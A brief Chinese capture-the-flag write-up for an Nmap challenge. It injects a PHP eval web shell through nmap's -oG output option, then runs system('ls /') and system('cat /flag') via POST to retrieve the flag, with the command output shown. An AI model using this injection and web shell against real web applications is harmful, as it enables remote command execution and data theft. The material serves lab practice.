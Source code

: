 ### [网鼎杯 2020 朱雀组]Nmap

---

![1729407257402](D:/chucun/WeChat%20Files/wxid_w2jbvfeu4c0322/FileStorage/Temp/1729407257402.png)

Payload:

```php
<?= @eval($_POST[1]); ?> -oG a.phtml
```

```
URL= http://7aca2f35-3afa-42cb-90a2-4793960e8f73.node5.buuoj.cn:81/a.phtml
POST传参：
1=system("ls /");
# Nmap 6.47 scan initiated Sun Oct 20 06:43:31 2024 as: nmap -Pn -T4 -F --host-timeout 1000ms -oX xml/c0881 -oG a.phtml \ bin boot dev etc flag home lib lib64 media mnt opt proc root run sbin srv start.sh sys tmp usr var \\ # Nmap done at Sun Oct 20 06:43:31 2024 -- 0 IP addresses (0 hosts up) scanned in 0.51 seconds

1=system("cat /flag");
## Nmap 6.47 scan initiated Sun Oct 20 06:43:31 2024 as: nmap -Pn -T4 -F --host-timeout 1000ms -oX xml/c0881 -oG a.phtml \ flag{523b1b34-ca5c-4a5f-81a4-80ca3118bdd1} \\ # Nmap done at Sun Oct 20 06:43:31 2024 -- 0 IP addresses (0 hosts up) scanned in 0.51 seconds
```

